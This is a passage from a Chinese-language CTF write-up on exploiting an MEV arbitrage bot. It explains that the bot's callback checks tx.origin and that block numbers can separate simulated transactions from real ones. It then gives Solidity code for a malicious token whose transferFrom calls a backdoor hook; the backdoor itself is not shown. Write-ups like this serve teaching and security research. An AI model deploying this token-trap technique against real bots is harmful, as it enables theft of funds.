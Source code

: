 - `uniswapV2Call()` 虽然增加了访问控制，但验证的是 `tx.origin`

    ```js
    function uniswapV2Call(address, uint, uint, bytes calldata data) external {
        require(tx.origin == owner, "origin");
    ```

- 由于题目环境相对固定，可以简单地通过区块号来区分模拟交易和实际套利交易。创建由受控代币和 `WETH` 组成的交易对，诱使 MEV bot 调用 `arbitrage()`，并在实际套利交易中调用 `uniswapV2Call()` 来转出资金

#### Exploitation

```js
contract HackToken {
    string public constant name     = "Hack Token";
    string public constant symbol   = "HT";
    uint8  public constant decimals = 18;
    uint public totalSupply = 1 ether;

    IUniswapV2Callee bot;
    address weth;
    bool hacked;

    event  Approval(address indexed src, address indexed guy, uint wad);
    event  Transfer(address indexed src, address indexed dst, uint wad);

    mapping (address => uint)                       public  balanceOf;
    mapping (address => mapping (address => uint))  public  allowance;

    constructor(IUniswapV2Callee _bot, address _weth) {
        balanceOf[msg.sender] = totalSupply;
        weth = _weth;
        bot = _bot;
    }

    function approve(address guy, uint wad) public returns (bool) {
        allowance[msg.sender][guy] = wad;
        emit Approval(msg.sender, guy, wad);
        return true;
    }

    // transfer() 将在 pair1.swap() 中被调用，即 MEV bot 发送 WETH 之后
    function transfer(address dst, uint wad) public returns (bool) {
        return transferFrom(msg.sender, dst, wad);
    }

    function transferFrom(address src, address dst, uint wad)
        public
        returns (bool)
    {
        backdoor();
        require(balanceOf[src] >= wad);

        if (src != msg.sender && allowance[src][msg.sender] != type(uint).max) {
            require(allowance[src][msg.sender] >= wad);
            allowance[src][msg.sender] -= wad;
        }

        balanceOf[src] -= wad;
        balanceOf[dst] += wad;

        emit Transfer(src, dst, wad);
        return true;
    }

```